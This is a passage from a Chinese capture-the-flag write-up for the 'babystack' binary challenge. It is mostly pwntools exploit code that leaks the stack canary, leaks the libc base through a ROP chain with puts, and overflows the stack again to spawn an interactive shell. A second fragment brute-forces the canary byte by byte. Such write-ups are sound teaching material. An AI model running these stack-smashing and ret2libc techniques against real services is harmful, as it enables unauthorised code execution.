```python
#泄露链接库地址基址时，只需将canary的位置使用上一步中泄露出来的canary进行覆盖，获取链接库地址偏移和寄存器利用，详见(http://www.cnblogs.com/ZHijack/p/7900736.html)
#ret2libc尝试和(http://www.cnblogs.com/ZHijack/p/7940686.html)64位简单栈溢出。最后返回start函数，重新执行。
#命令： ROPgadget --binary babystack --only 'pop|ret' | grep 'rdi'
        payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
        #  print len(payload)
        io.sendline(payload)
        io.sendlineafter(">> ", "3")
        #  debug()
        #  log.info("------------------")
        sleep(1)
        read_leaked = u64(io.recv(6).ljust(8, '\x00'))
        log.debug("read_leaked -> 0x%x" % read_leaked)
        read_libc = libc.symbols["read"]
        libc_base = read_leaked - read_libc
        log.debug("leaked libcBase -> 0x%x" % libc_base)
        return libc_base

#（3）获取shell
def getShell(canary, libcBase):
        io.sendlineafter(">> ", "1")
        exeAddr = libcBase + exe_addr
#重新执行函数后，需重新泄露canary，然后进行溢出，即可获得shell。 
        payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
        io.sendline(payload)
        #  debug()
        io.sendlineafter(">> ", "3")

        io.interactive()
        io.close()

#（4）主函数执行：
if __name__ == "__main__":
        canary = getCanary()
        libcBase = getBase(canary)
        canary = getCanary()
        getShell(canary, libcBase)
```

虽然程序本身没有开启随机地址，但是其链接库开启了PIE保护，所以我们需要两次溢出：

先获得函数地址在libc库中的偏移，进而得到需要函数在内存中的真实地址，然后在溢出执行system函数获取shell。

writeup2：

（这段payload直接强制记下来吧，没有看懂）
```python
1.#0x88过后0x89开始便是canary，但由于0x89可能是0,为了利用put泄露canary，我们就先将这里覆盖为aa
2.payload='a'*(0x88)
3.
4.c=''
5.#覆盖canary的前导0
6.for i in range(0,8):
7.	sh.send(payload+'a'*i)
8.	sh.recvuntil('>>')
9.	sh.sendline('2')
10.	sh.recv(0x88+i)
11.	c=sh.recvuntil('\n').split('\n')[0]
12.#	print c
13.	l=len(c)
14.	if l>4:#长度大于我们发送的字符串长度，说明数据已经暴露出来了
15.		break;
16.	sh.recvuntil('>>')
17.	sh.sendline('1')
```